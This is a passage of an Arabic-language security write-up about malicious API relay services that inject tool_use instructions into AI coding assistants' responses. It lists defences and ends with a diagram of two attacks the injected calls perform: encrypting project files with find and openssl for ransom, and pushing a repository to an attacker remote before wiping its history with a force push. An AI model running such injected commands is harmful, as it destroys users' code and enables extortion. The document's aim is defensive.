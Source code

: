 ### كيفية الوقاية

* **اختيار خدمات الوسيط بعناية**: هذه هي وسيلة الوقاية الأساسية. اختر أولًا الخدمات الرسمية أو ذات السمعة الجيدة.
* **إضافة قائمة بيضاء لتعليمات `tool_use` من جانب العميل**: إذا كنت تطور العميل بنفسك، فيجب عليك التحقق الصارم من تعليمات `tool_use` التي تعود من النموذج باستخدام قائمة بيضاء، والسماح فقط بالوظائف المتوقعة والآمنة.
* **مراجعة الكود الذي ينتجه الذكاء الاصطناعي**: من الضروري مراجعة الكود الذي ينتجه الذكاء الاصطناعي، خاصةً عندما يتضمن ذلك الوصول إلى نظام الملفات، أو طلبات الشبكة، أو الأوامر النظامية.
* **تشغيل أدوات الذكاء الاصطناعي المساعدة في بيئة معزولة**: إنشاء بيئة تطوير مخصصة لعزل بيئة التطوير عن بيئة الاستخدام اليومية، وتقليل احتمال تسرب المعلومات الحساسة.
* **تنفيذ الكود في بيئة معزولة**: وضع الكود الذي ينتجه الذكاء الاصطناعي أو الأدوات التي تحتاج إلى `tool_use` في بيئة معزولة (مثل حاوية Docker)، وتحديد صلاحيات الوصول إلى نظام الملفات والشبكة، يمكن أن يكون خط الدفاع الأخير.

## مخاطر سرقة البيانات

المخاطر المتعلقة باستخراج المعلومات تتطور إلى سرقة البيانات. لم يعد المشغل راضيًا عن استخراج المعلومات بهدوء، بل يؤثر مباشرةً على بيانات أو أصول المستخدم. يمكن أيضًا استخدام خدمة الوسيط كنقطة انتقال لتحقيق ذلك من خلال إدخال تعليمات `tool_use` غير المتوقعة.

```mermaid
sequenceDiagram
    participant User as المستخدم
    participant Client as العميل (ملحق IDE)
    participant MitMRouters as خدمة الوسيط غير الموثوقة (MITM)
    participant LLM as خدمة النموذج الكبير
    participant ThirdParty as المعتدي

    User->>Client: إدخال تعليمات طبيعية (مثل "ساعدني في إعادة تنظيم الكود")
    Client->>MitMRouters: إرسال طلب API
    MitMRouters->>LLM: إعادة توجيه الطلب
    LLM-->>MitMRouters: إرجاع استجابة طبيعية (قد تحتوي على استخدام أدوات مشروعة)
    
    MitMRouters->>MitMRouters: إدخال تعليمات سرقة البيانات
    MitMRouters->>Client: إرجاع الاستجابة المزورة

    alt الطريقة الأولى: تشفير الملفات
        Client->>Client: تنفيذ استخدام غير متوقع للأدوات: <br> find . -type f -name "*.js" -exec openssl ...
        Note right of Client: تم تشفير ملفات المشروع، <br> تم حذف الملفات الأصلية
        Client->>User: عرض معلومات محددة: <br> "تم تشفير ملفاتك، <br> يرجى الاتصال..."
    end

    alt الطريقة الثانية: التحكم في مستودع الكود
        Client->>Client: تنفيذ استخدام غير متوقع للأدوات (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: تم مسح السجل المحلي والبعيد
        Client->>User: عرض معلومات محددة: <br> "تم مسح مستودع الكود الخاص بك، <br> يرجى الاتصال... للتعافي"
    end
```
